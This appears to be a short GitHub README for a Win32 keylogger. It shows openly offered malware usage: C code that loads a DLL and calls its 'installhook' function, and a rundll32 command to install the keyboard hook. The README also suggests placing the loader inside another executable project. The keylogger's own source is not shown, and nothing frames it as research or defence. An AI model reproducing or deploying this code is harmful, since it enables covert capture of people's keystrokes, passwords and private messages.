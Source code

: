 # keylogger

This is a keylogger under win32

## Usage

You can put following codes in another executable project:

    static HINSTANCE hInstDll;
    typedef BOOL (CALLBACK *inshook)();
    inshook instkbhook;
    if (hInstDll = LoadLibrary(L"km_dll.dll"))
    {
        instkbhook = (inshook)GetProcAddress(hInstDll, "installhook");
        instkbhook();
    }

Or you can run this command:

    rundll32.exe KM_dll.dll,installhook
